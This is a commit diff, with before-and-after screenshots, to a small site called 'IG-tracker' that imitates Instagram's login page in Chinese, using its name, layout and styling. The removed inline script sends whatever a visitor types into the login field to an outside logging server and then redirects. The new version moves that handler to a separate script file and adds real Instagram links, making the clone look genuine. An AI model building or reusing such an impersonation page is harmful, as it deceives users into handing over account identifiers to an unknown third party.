

Before and after one commit to yunsheng0204/IG-tracker, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 296-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,50 +1,24 @@
 <!DOCTYPE html>
 <html lang="zh-Hant">
 <head>
-  <meta charset="UTF-8">
+  <meta charset="UTF-8" />
   <title>Instagram</title>
-  <link rel="stylesheet" href="style.css">
+  <link rel="stylesheet" href="style.css" />
 </head>
 <body>
-  <div class="container">
+  <div class="main-container">
     <div class="login-box">
-      <h1 class="logo">Instagram</h1>
-      <input type="text" id="igInput" placeholder="電話號碼、用戶名稱或電子郵件">
+      <img src="instagram-logo.png" alt="Instagram" class="logo" />
+      <input type="text" id="igInput" placeholder="用戶名稱" />
       <button onclick="submitIG()">登入</button>
       <div class="divider">或</div>
-      <a href="#" class="fb-login">使用 Facebook 帳號登入</a>
-      <a href="#" class="forgot">忘記密碼？</a>
+      <div class="fb-login">使用 Facebook 帳號登入</div>
+      <a href="https://www.instagram.com/accounts/password/reset/" class="forgot">忘記密碼？</a>
     </div>
     <div class="signup-box">
-      沒有帳號？<a href="#">註冊</a>
+      沒有帳號？<a href="https://www.instagram.com/accounts/emailsignup/">註冊</a>
     </div>
   </div>
-
-  <script>
-    function submitIG() {
-      const igUsername = document.getElementById("igInput").value.trim();
-      if (igUsername === "") {
-        alert("請輸入 IG 帳號");
-        return;
-      }
-
-      fetch("https://ig-tracker-api.onrender.com/api/log", {
-        method: "POST",
-        headers: {
-          "Content-Type": "application/json"
-        },
-        body: JSON.stringify({ username: igUsername })
-      })
-      .then(res => res.json())
-      .then(data => {
-        console.log("記錄成功：", data);
-        window.location.href = "https://yunsheng0204.github.io/IG-tracker/";
-      })
-      .catch(err => {
-        alert("記錄失敗");
-        console.error(err);
-      });
-    }
-  </script>
+  <script src="script.js"></script>
 </body>
 </html>
--- a/style.css
+++ b/style.css
@@ -1,37 +1,31 @@
-* {
+body {
   margin: 0;
   padding: 0;
-  box-sizing: border-box;
-}
-
-body {
-  font-family: Arial, sans-serif;
+  font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
   background-color: #fafafa;
-  height: 100vh;
   display: flex;
   justify-content: center;
   align-items: center;
-  flex-direction: column;
+  height: 100vh;
 }
 
-.container {
+.main-container {
   display: flex;
   flex-direction: column;
   align-items: center;
 }
 
 .login-box {
-  background: #fff;
+  width: 350px;
+  padding: 40px;
+  background-color: white;
   border: 1px solid #dbdbdb;
-  padding: 40px;
-  width: 350px;
-  display: flex;
-  flex-direction: column;
-  align-items: center;
+  text-align: center;
+  margin-bottom: 10px;
 }
 
 .logo {
-  font-family: 'Grand Hotel', cursive;
+  font-family: 'Billabong', cursive;
   font-size: 48px;
   margin-bottom: 30px;
 }
@@ -39,8 +33,8 @@ body {
 input {
   width: 100%;
   padding: 10px;
-  margin-bottom: 10px;
-  background: #fafafa;
+  margin-bottom: 6px;
+  background-color: #fafafa;
   border: 1px solid #dbdbdb;
   border-radius: 3px;
 }
@@ -49,36 +43,46 @@ button {
   width: 100%;
   padding: 10px;
   background-color: #3897f0;
-  color: white;
   border: none;
   border-radius: 4px;
+  color: white;
   font-weight: bold;
   cursor: pointer;
+  margin-top: 8px;
 }
 
 .divider {
-  margin: 15px 0;
+  margin: 20px 0;
   color: #999;
+  font-size: 13px;
 }
 
 .fb-login {
   color: #385185;
   font-weight: bold;
-  text-decoration: none;
-  margin-bottom: 10px;
+  font-size: 14px;
+  cursor: pointer;
 }
 
 .forgot {
+  display: block;
+  margin-top: 12px;
   font-size: 12px;
   color: #00376b;
   text-decoration: none;
 }
 
 .signup-box {
-  margin-top: 20px;
+  width: 350px;
   padding: 20px;
+  background-color: white;
   border: 1px solid #dbdbdb;
-  background: #fff;
-  width: 350px;
   text-align: center;
+  font-size: 14px;
 }
+
+.signup-box a {
+  color: #3897f0;
+  text-decoration: none;
+  font-weight: bold;
+}
```
